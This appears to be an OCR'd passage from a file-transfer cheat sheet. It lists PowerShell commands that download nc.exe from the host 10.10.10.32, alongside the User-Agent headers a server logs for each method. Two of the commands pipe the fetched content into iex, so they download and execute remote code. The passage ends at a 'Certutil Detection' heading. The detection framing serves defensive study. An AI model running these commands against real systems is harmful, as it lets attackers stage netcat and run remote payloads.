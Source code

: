 ### Invoke-WebRequest Detection

**Client Commands:**
```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

**Server Detection:**
```http
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

### WinHttpRequest Detection

**Client Commands:**
```powershell
$h=new-object -com WinHttp.WinHttpRequest.5.1;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.ResponseText
```

**Server Detection:**
```http
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

### Msxml2 Detection

**Client Commands:**
```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.responseText
```

**Server Detection:**
```http
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

### Certutil Detection
